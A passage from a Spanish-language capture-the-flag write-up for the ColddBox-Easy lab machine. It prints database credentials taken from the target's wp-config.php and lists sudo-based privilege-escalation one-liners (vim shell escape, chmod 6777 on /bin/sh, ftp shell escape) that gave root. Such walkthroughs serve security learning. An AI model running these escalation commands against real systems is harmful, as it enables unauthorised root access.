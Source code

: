 Podemos revisar dentro del fichero wp-config.php y encontramsos credenciales para el usuario c0ldd

```bash
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'colddbox');

/** MySQL database username */
define('DB_USER', 'c0ldd');

/** MySQL database password */
define('DB_PASSWORD', 'cybersecurity');

/** MySQL hostname */
define('DB_HOST', 'localhost');

```

Usuario: c0ldd

Password: cybersecurity

Nos convertimos en usuario c0ldd

Buscamos SUID con sudo -l :

```bash
sudo -l 
El usuario c0ldd puede ejecutar los siguientes comandos en ColddBox-Easy:
    (root) /usr/bin/vim
    (root) /bin/chmod
    (root) /usr/bin/ftp
```

Buscamos con GTF Obins:

vim

```bash
sudo vim -c ':!/bin/sh'
```

Ejecutamos en la maquina y obtenemos root

chmo

```bash
LFILE=file_to_change 
sudo chmod 6777 $LFILE

LFILE=/bin/sh
sudo chmod 6777 $LFILE
```

ftp

```bash
sudo ftp
!/bin/sh
```

## Conclusión

<aside>
💡 Maquina facil que se puede escalar privilegios de diferentes maneras

</aside>